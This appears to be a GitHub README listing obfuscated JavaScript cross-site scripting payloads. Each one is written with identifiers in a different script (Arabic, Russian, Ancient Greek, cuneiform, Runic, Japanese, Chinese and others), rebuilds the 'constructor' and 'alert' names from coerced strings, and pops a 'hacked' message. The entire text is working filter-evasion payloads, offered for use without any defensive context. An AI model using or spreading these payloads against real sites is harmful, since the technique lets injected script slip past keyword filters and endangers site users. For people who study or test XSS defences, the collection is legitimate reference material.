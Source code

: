XSS Payload Written In Arabic
```
ا='',ب=!ا+ا,ت=!ب+ا,ث=ا+{},ج=ب[ا++],ح=ب[خ=ا],د=++خ+ا,ذ=ث[خ+د],ب[ذ+=ث[ا]+(ب.ت+ث)[ا]+ت[د]+ج+ح+ب[خ]+ذ+ج+ث[ا]+ح][ذ](ت[ا]+ت[خ]+ب[د]+ح+ج+"(1)")()
```
XSS Payload Written in Russian 🇷🇺
```
а='',б=!а+а,в=!б+а,г=а+{},д=б[а++],е=б[ж=а],з=++ж+а,и=г[ж+з],б[и+=г[а]+(б.в+г)[а]+в[з]+д+е+б[ж]+и+д+г[а]+е][и](в[а]+в[ж]+б[з]+е+д+"('взломано')")()
```
XSS Payload Written In Ancient Greek Language

```
α='',β=!α+α,γ=!β+α,δ=α+{},ε=β[α++],ζ=β[ι=α],η=++ι+α,θ=δ[ι+η],β[θ+=δ[α]+(β.γ+δ)[α]+γ[η]+ε+ζ+β[ι]+θ+ε+δ[α]+ζ][θ](γ[α]+γ[ι]+β[η]+ζ+ε+"('Ĥαcεκd βγ γαssιη')")()
```
XSS Payload Written in Ancient Indus Language 📜
```
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

XSS Payload Written in Inuktitut language 📜
```
ᐊ='',ᐃ=!ᐊ+ᐊ,ᐅ=!ᐃ+ᐊ,ᐱ=ᐊ+{},ᑎ=ᐃ[ᐊ++],ᓇ=ᐃ[ᓕ=ᐊ],ᓯ=++ᓕ+ᐊ,ᓂ=ᐱ[ᓕ+ᓯ],ᐃ[ᓂ+=ᐱ[ᐊ]+(ᐃ.ᐅ+ᐱ)[ᐊ]+ᐅ[ᓯ]+ᑎ+ᓇ+ᐃ[ᓕ]+ᓂ+ᑎ+ᐱ[ᐊ]+ᓇ][ᓂ](ᐅ[ᐊ]+ᐅ[ᓕ]+ᐃ[ᓯ]+ᓇ+ᑎ+"('ᐊᐃᓐᓇᓂᐅᑦ ᐱᔭᓯᓕᖅ')")()
```
XSS Payload Written In Glagolitic 📜
```
Ⰰ='',Ⰱ=!Ⰰ+Ⰰ,Ⰲ=!Ⰱ+Ⰰ,Ⰳ=Ⰰ+{},Ⰴ=Ⰱ[Ⰰ++],Ⰵ=Ⰱ[Ⰶ=Ⰰ],Ⰷ=++Ⰶ+Ⰰ,Ⰸ=Ⰳ[Ⰶ+Ⰷ],Ⰱ[Ⰸ+=Ⰳ[Ⰰ]+(Ⰱ.Ⰲ+Ⰳ)[Ⰰ]+Ⰲ[Ⰷ]+Ⰴ+Ⰵ+Ⰱ[Ⰶ]+Ⰸ+Ⰴ+Ⰳ[Ⰰ]+Ⰵ][Ⰸ](Ⰲ[Ⰰ]+Ⰲ[Ⰶ]+Ⰱ[Ⰷ]+Ⰵ+Ⰴ+"('ⰀⰁⰂⰃⰄⰅⰆⰇⰈ')")()
```
XSS Payload Written In Linear B language 📜
```
𐀀='',𐀁=!𐀀+𐀀,𐀂=!𐀁+𐀀,𐀃=𐀀+{},𐀄=𐀁[𐀀++],𐀅=𐀁[𐀆=𐀀],𐀇=++𐀆+𐀀,𐀈=𐀃[𐀆+𐀇],𐀁[𐀈+=𐀃[𐀀]+(𐀁.𐀂+𐀃)[𐀀]+𐀂[𐀇]+𐀄+𐀅+𐀁[𐀆]+𐀈+𐀄+𐀃[𐀀]+𐀅][𐀈](𐀂[𐀀]+𐀂[𐀆]+𐀁[𐀇]+𐀅+𐀄+"('𐀀𐀁𐀂𐀃𐀄 𐀅𐀆𐀇𐀈')")()
```
XSS Payload Written In Runic 📜
```
ᚠ='',ᚢ=!ᚠ+ᚠ,ᚦ=!ᚢ+ᚠ,ᚨ=ᚠ+{},ᚱ=ᚢ[ᚠ++],ᚲ=ᚢ[ᚷ=ᚠ],ᚹ=++ᚷ+ᚠ,ᚺ=ᚨ[ᚷ+ᚹ],ᚢ[ᚺ+=ᚨ[ᚠ]+(ᚢ.ᚦ+ᚨ)[ᚠ]+ᚦ[ᚹ]+ᚱ+ᚲ+ᚢ[ᚷ]+ᚺ+ᚱ+ᚨ[ᚠ]+ᚲ][ᚺ](ᚦ[ᚠ]+ᚦ[ᚷ]+ᚢ[ᚹ]+ᚲ+ᚱ+"('ᛞᚾᛋᚨᛏᛡᚠᛚᛖᚺᛋᛉᛏᚱ')")()
```
XSS Payload Written In Ancient YI language 📜
```
ꆈ='',ꌠ=!ꆈ+ꆈ,ꁱ=!ꌠ+ꆈ,ꁯ=ꆈ+{},ꉬ=ꌠ[ꆈ++],ꃅ=ꌠ[ꋍ=ꆈ],ꇁ=++ꋍ+ꆈ,ꊰ=ꁯ[ꋍ+ꇁ],ꌠ[ꊰ+=ꁯ[ꆈ]+(ꌠ.ꁱ+ꁯ)[ꆈ]+ꁱ[ꇁ]+ꉬ+ꃅ+ꌠ[ꋍ]+ꊰ+ꉬ+ꁯ[ꆈ]+ꃅ][ꊰ](ꁱ[ꆈ]+ꁱ[ꋍ]+ꌠ[ꇁ]+ꃅ+ꉬ+"('ꆈꌠꁱꁯꉬꃅꋍꇁꊰꌠꁱꉬꇁꊰꆈꋍꁯꃅꆈꌠꁱꁯꉬꃅꋍꇁꊰ')")()
```
XSS Payload Written In Hieroglyphics 🇪🇬

```
𓀀='',𓁹=!𓀀+𓀀,𓆣=!𓁹+𓀀,𓉐=𓀀+{},𓂀=𓁹[𓀀++],𓏏=𓁹[𓀂=𓀀],𓎛=++𓀂+𓀀,𓅓=𓉐[𓀂+𓎛],𓁹[𓅓+=𓉐[𓀀]+(𓁹.𓆣+𓉐)[𓀀]+𓆣[𓎛]+𓂀+𓏏+𓁹[𓀂]+𓅓+𓂀+𓉐[𓀀]+𓏏][𓅓](𓆣[𓀀]+𓆣[𓀂]+𓁹[𓎛]+𓏏+𓂀+"('𓀀𓁹𓆣𓉐𓂀𓏏𓎛𓅓')")()
```

XSS Payload Written In Japanese 🇯🇵
```
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],く=++き+あ,け=え[き+く],い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```
XSS Payload Written In Chinese 🇨🇳 
```
甲='',乙=!甲+甲,丙=!乙+甲,丁=甲+{},戊=乙[甲++],己=乙[庚=甲],辛=++庚+甲,壬=丁[庚+辛],乙[壬+=丁[甲]+(乙.丙+丁)[甲]+丙[辛]+戊+己+乙[庚]+壬+戊+丁[甲]+己][壬](丙[甲]+丙[庚]+乙[辛]+己+戊+"('被攻擊了')")()
```
Miscellaneous:
```
𝒜='',ℬ=!𝒜+𝒜,𝒞=!ℬ+𝒜,𝒟=𝒜+{},ℰ=ℬ[𝒜++],ℱ=ℬ[𝒢=𝒜],ℋ=++𝒢+𝒜,ℐ=𝒟[𝒢+ℋ],ℬ[ℐ+=𝒟[𝒜]+(ℬ.𝒞+𝒟)[𝒜]+𝒞[ℋ]+ℰ+ℱ+ℬ[𝒢]+ℐ+ℰ+𝒟[𝒜]+ℱ][ℐ](𝒞[𝒜]+𝒞[𝒢]+ℬ[ℋ]+ℱ+ℰ+"('𝓱𝓪𝓬𝓴𝓮𝓭 𝓫𝔂 𝔂𝓪𝓼𝓼𝓲𝓷')")()
```
```
Ａ='',Ｂ=!Ａ+Ａ,Ｃ=!Ｂ+Ａ,Ｄ=Ａ+{},Ｅ=Ｂ[Ａ++],Ｆ=Ｂ[Ｇ=Ａ],Ｈ=++Ｇ+Ａ,Ｉ=Ｄ[Ｇ+Ｈ],Ｂ[Ｉ+=Ｄ[Ａ]+(Ｂ.Ｃ+Ｄ)[Ａ]+Ｃ[Ｈ]+Ｅ+Ｆ+Ｂ[Ｇ]+Ｉ+Ｅ+Ｄ[Ａ]+Ｆ][Ｉ](Ｃ[Ａ]+Ｃ[Ｇ]+Ｂ[Ｈ]+Ｆ+Ｅ+"('H̶̦͇͓͔͙͔̜͕̬̗̦̜̹͎̝̟̥̊̆͊̈̿͆͐a̵̝̤̓̆̅̒̄͂͌̃͌̕͝͝č̷̡̡̡̛̳̱̠̫͓͕͕͔́͒͑̉͑̓̓͘͘͜͜͝k̷̢͈͖̫̐̓̊̊͊͑̒̊̄̎̽̕͘͘͝ę̴͔̻̟͎̟͖̪̐̆̉̓̑̐̇̋̇̍́̉͠ͅd̴͚̱̣͓̠̹̻̺͈̮̣̏̀̈́̒͆͐͋́ ̶̦̥̰̻̬̩̦̒͋͂̀͠B̴̛̤̹̤͍̹̺̖̬̺̝̈́͂̾͌̈́̓̋̍̃̀́̔͘͜͜͜͠ͅỳ̷̬͖͉͕͙̗͉̜̼̣̤̳̣̺͖͇̈́̾̈̀͂̑͋͌̀͠͠ ̵͈̏̑͛̈́̆̇̓̔̂̔̈́͘Y̷̧̼͉͙͙͙͙̳̳̰̮̯̝̔̀̋͊͋̒̐͒́̿̔̈́̈́̊̕͘ä̶̛͖͉̗̠̩̰̻͕̳͍͎́̅̇͗͑̇̊̀͘͝ͅś̷͕̥̹̬̟̑̑͌̀̅̍̈́͋̓̍͘s̷̱̔̐͗̈́̍̏͝͝i̶̺̠̝͉̥̖̙̰͌͌̈͂̽͒̅͜͜͝ͅṅ̴̛̦̙͖̲̫̹͊͑͌̎̒̉̆')")()
```

```
λ='',ψ=!λ+λ,χ=!ψ+λ,Ϟ=λ+{},ϟ=ψ[λ++],Ϡ=ψ[ϡ=λ],Ϣ=++ϡ+λ,ϣ=Ϟ[ϡ+Ϣ],
ψ[ϣ+=Ϟ[λ]+(ψ.χ+Ϟ)[λ]+χ[Ϣ]+ϟ+Ϡ+ψ[ϡ]+ϣ+ϟ+Ϟ[λ]+Ϡ][ϣ](χ[λ]+χ[ϡ]+ψ[Ϣ]+Ϡ+ϟ+"('⟊⟒⫯⫸⧉⧬⩣⪬⨀⩘⫛⟆⧆⧈⪻⫷⩚⟟')")()
```